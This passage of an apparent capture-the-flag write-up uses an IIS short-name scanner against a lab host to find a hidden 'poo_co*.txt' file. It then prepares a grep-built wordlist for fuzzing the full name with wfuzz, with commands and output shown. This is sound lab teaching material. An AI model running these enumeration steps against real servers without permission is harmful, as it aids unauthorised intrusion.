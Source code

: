 
I’m not sure why it misses the `.` in front of `.DS_Store`. The script labels
it as directories because in 8.3 if it doesn’t have an extension it’s thought
to be a directory.

More interesting is when I run it against the `/dev` directories. The root
just finds the `.DS_Store` and the two hash directories I know about. In each
of the hash directories it only finds `.DS_Store`. It shows the `src`,
`include`, and `core` directories are not vulnerable. But the `db` directory
shows what looks like the same file in both:

    
    
    root@kali# python /opt/IIS_shortname_Scanner/iis_shortname_Scan.py http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db
    Server is vulnerable, please wait, scanning...
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/p~1.*      [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/po~1.*     [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo~1.*    [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_~1.*   [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_c~1.*  [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.* [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.t*        [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.tx*       [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*      [scan in progress]
    [+] File /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt* [Done]
    ----------------------------------------------------------------
    File: /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*
    ----------------------------------------------------------------
    0 Directories, 1 Files found in total
    Note that * is a wildcard, matches any character zero or more times.
    root@kali# python /opt/IIS_shortname_Scanner/iis_shortname_Scan.py http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db
    Server is vulnerable, please wait, scanning...                                                               ...[snip]...
    ----------------------------------------------------------------
    File: /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*
    ----------------------------------------------------------------
    0 Directories, 1 Files found in total
    Note that * is a wildcard, matches any character zero or more times.
    

### Fuzz File

I know there’s a `.txt` file in `/dev/304c0c90fbc6520610abbf378e2339d1/db/`
that starts with `poo_co`. This is where I can use `wfuzz` to see if I can
find the rest of the filename. I’ll `grep` words that start with `co` from
`raft-large-words-lowercase.txt` which gives a relatively small wordlist to
start with:

    
    
    root@kali# grep "^co" /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt > co_fuzz.txt 
    root@kali# wc -l co_fuzz.txt
    2351 co_fuzz.txt
    
